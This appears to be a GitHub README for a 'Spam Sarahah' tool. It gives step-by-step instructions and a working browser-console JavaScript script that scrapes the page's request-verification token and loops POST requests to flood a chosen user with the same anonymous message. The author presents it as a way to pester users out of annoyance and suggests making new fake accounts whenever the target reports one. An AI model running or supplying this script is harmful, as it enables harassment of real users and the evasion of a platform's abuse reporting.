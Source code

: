 # Spam Sarahah
Use this to spam sarahah users, because i got tired of all the sarahah statuses

##### NOTE: Sarahah allows users to report messages, so some users might not recieve messages, if you think that is the case, it is recommended that you log in your account in another tab(obviously a fake/dummy account). If that account is reported by the user too, create another ;)

## Steps
1. Open the sarahah page of the user you want to spam
2. Open `console` by pressing f12
3. Copy and paste the following script in console.
    
```    
var number = 50;
var message = 'hello sarahah';
var userId = $('#RecipientId').val();
verifTk = document.body.innerHTML.split("__RequestVerificationToken: $('")[1].split("').attr")[0];
for(i=0;i<number;i++){
    $.ajax({
        url: '/Messages/SendMessage',
        type: 'POST',
        cache: false,
        data: {
            __RequestVerificationToken: $(verifTk).attr('value'),
            userId: userId,
            text: message
        },
        success: function () {
           console.log("posted");
        },
        error: function () {
            console.log("error");
        }
    })
}
```

4. you will see posted in colsole, the number behind posted represents th number of times it has been posted.
5. There is no point 5, I am just adding this because a list with 5 points looks good. No, I don't have OCD.

#### Replace the top of the script with any number. the user gets the same message that number of times.
#### Replcae message with any message of your choice, but remember that the message should be placed between quotes.
